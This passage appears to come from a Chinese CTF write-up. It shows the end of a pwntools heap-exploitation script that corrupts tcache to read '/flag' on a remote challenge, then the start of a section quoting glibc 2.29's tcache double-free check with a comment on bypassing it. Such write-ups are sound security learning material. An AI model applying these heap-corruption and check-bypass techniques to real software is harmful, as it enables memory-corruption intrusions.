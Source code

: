 ```python
	dele(0)
	
	add(2,p16(heap+0x10))
	add(0x10,p64(0)+p64(0x21))

	add(0x10,p64(0)*2)
	dele(7)
	
	add(2,p16(stdin_fileno))
	dele(0)
	dele(0)
	add(2,p16(heap+0x10))
	add(1,"A")
	add(1,"A")
	add(1,"\x03")
	


	enc(20,0x6a,"/flag"+"\x00"*(0x63)+p16(elf))
	p.recvuntil("welcome!",timeout=1)
	flag = p.recvuntil('.\n',timeout=1)
	info(flag)
	p.interactive()
	
if __name__ == "__main__":
	for i in range(0x1000):
		try:
			main(args['REMOTE'])
		except Exception,err:
			p.close()
			print err
			continue
			
```



## new_heap

libc2.29有对tcache **double free** 进行check,这很蛋疼

```c
#if USE_TCACHE
  {
    size_t tc_idx = csize2tidx (size);
    if (tcache != NULL && tc_idx < mp_.tcache_bins)
      {
	/* Check to see if it's already in the tcache.  */
	tcache_entry *e = (tcache_entry *) chunk2mem (p);

	/* This test succeeds on double free.  However, we don't 100%
	   trust it (it also matches random payload data at a 1 in
	   2^<size_t> chance), so verify it's not an unlikely
	   coincidence before aborting.  */
	if (__glibc_unlikely (e->key == tcache))	//如果我们可以把e->key即chunk的bk指针修改掉，那就可以绕过这个check
	  {
	    tcache_entry *tmp;
	    LIBC_PROBE (memory_tcache_double_free, 2, e, tc_idx);
	    for (tmp = tcache->entries[tc_idx];
		 tmp;
		 tmp = tmp->next)
	      if (tmp == e)
		malloc_printerr ("free(): double free detected in tcache 2");
	    /* If we get here, it was a coincidence.  We've wasted a
```